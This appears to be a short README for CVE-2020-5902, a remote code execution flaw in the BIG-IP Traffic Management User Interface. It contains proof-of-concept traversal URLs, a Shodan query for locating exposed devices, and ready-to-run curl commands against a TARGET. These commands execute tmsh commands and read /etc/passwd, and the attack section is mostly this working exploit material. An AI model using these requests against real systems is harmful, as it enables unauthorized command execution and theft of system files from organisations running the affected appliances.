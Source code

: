 # CVE-2020-5902

## Description

In BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1, the Traffic Management User Interface (TMUI), 
also referred to as the Configuration utility, has a Remote Code Execution (RCE) vulnerability in undisclosed pages.

## POC

#### GET /tmui/login.jsp/..;/tmui/system/user/authproperties.jsp
#### GET /tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=AnyMsgHereWillBeReflectedInTheResponse

## Tools

https://github.com/aqhmal/CVE-2020-5902-Scanner
Shodan Query: title:"BIG-IP&reg;- Redirect"

## Exploit

curl -v -k  'https://TARGET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
Read File: curl -v -k  'https://TARGET/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'
